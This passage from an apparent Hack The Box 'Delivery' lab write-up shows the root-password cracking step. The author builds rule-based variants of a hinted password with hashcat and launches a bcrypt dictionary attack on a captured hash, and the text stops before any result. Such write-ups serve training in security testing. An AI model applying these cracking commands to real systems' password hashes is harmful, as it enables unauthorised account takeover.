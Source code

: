 ### 7. Crack the root password
Keeping in mind the other piece of information that was given in the internal chat: "PleaseSubscribe! may not be in RockYou but if any hacker manages to get our hashes, they can use hashcat rules to easily crack all variations of common words or phrases.", I will apply a ruleset to the password "PleaseSubscribe!"
  
```bash
┌──(kali㉿kali)-[~/Desktop/htb/delivery]
└─$ echo "PleaseSubscribe\!" | hashcat -r /usr/share/hashcat/rules/InsidePro-PasswordsPro.rule --stdout > pleasesub.list

┌──(kali㉿kali)-[~/Desktop/htb/delivery]
└─$ head pleasesub.list                                                                                                            
PleaseSubscribe!
pleasesubscribe!
PLEASESUBSCRIBE!
Pleasesubscribe!
!ebircsbuSesaelP
PleaseSubscribe!PleaseSubscribe!
Pleasesubscribe!Pleasesubscribe!
PleaseSubscribe!PleaseSubscribe!PleaseSubscribe!PleaseSubscribe!
Pleasesubscribe!Pleasesubscribe!Pleasesubscribe!Pleasesubscribe!
PLEASESUBSCRIBE!PLEASESUBSCRIBE!PLEASESUBSCRIBE!PLEASESUBSCRIBE!

┌──(kali㉿kali)-[~/Desktop/htb/delivery]
└─$ hashcat -a 0 -m 3200 root.hash pleasesub.list  --force                                                                         
hashcat (v6.1.1) starting...

You have enabled --force to bypass dangerous warnings and errors!
This can hide serious problems and should only be done when debugging.
Do not report hashcat issues encountered when using --force.
OpenCL API (OpenCL 1.2 pocl 1.5, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=============================================================================================================================
* Device #1: pthread-Intel(R) Core(TM) i7-7500U CPU @ 2.70GHz, 1423/1487 MB (512 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 72

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 65 MB

Dictionary cache built:
* Filename..: pleasesub.list
* Passwords.: 3120
* Bytes.....: 62674
* Keyspace..: 3120
* Runtime...: 0 secs
```
